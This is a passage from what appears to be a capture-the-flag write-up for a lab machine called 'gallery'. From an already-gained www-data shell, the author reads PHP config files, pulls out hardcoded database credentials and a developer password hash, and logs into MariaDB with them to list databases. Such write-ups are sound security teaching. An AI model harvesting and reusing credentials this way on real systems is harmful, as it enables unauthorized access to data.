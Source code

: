 ```php
                echo 'Cannot connect to database server';
                exit;
            }            
        }    
        
    }
    public function __destruct(){
        $this->conn->close();
    }
}
```

Nothing there. Let's check `initialize.php`:

```php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

Sweet !!! Let's connect to the sql db.

After connecting, I couldn't do much though. I needed to stabilize the shell first. See [2].

Let's connect again then:

```bash
www-data@gallery:/var/www/html/gallery/uploads$ mysql -u gallery_user -p

Enter password: passw0rd321
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 6009
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

Let's check databases:

```bash
MariaDB [(none)]> show databases;

+--------------------+
| Database           |
+--------------------+
| gallery_db         |
| information_schema |
+--------------------+
2 rows in set (0.00 sec)
```
